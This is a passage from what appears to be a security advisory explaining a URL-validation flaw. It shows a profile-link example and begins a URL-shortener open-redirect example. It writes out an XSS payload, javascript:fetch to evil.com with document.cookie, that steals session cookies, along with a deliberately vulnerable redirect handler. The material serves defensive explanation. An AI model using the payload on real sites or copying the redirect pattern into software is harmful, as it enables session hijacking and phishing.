 ```javascript
// Frontend rendering
<div class="profile">
  <a href="${user.website}">Visit Website</a>
</div>
```

**Attack:**
```
POST /api/profile
{
  "website": "javascript:fetch('https://evil.com?c='+document.cookie)"
}

Response: { "success": true }  ← VULNERABLE!

Victim views profile:
<a href="javascript:fetch('https://evil.com?c='+document.cookie)">Visit Website</a>

Victim clicks → Cookie stolen → Session hijacked
```

**With Patch:**
```
POST /api/profile
{
  "website": "javascript:fetch('https://evil.com?c='+document.cookie)"
}

Response: { "error": "Invalid website URL" }  ← SECURE!

Attack prevented.
```

### Example 2: URL Shortener

**Vulnerable:**
```javascript
app.post('/api/shorten', (req, res) => {
  const { url } = req.body;

  if (!validator.isURL(url)) {
    return res.status(400).json({ error: 'Invalid URL' });
  }

  const shortCode = generateShortCode();
  db.saveUrl(shortCode, url);

  res.json({ shortUrl: `https://short.link/${shortCode}` });
});

app.get('/:code', (req, res) => {
  const url = db.getUrl(req.params.code);
  res.redirect(url);  // ← VULNERABLE!
});
```
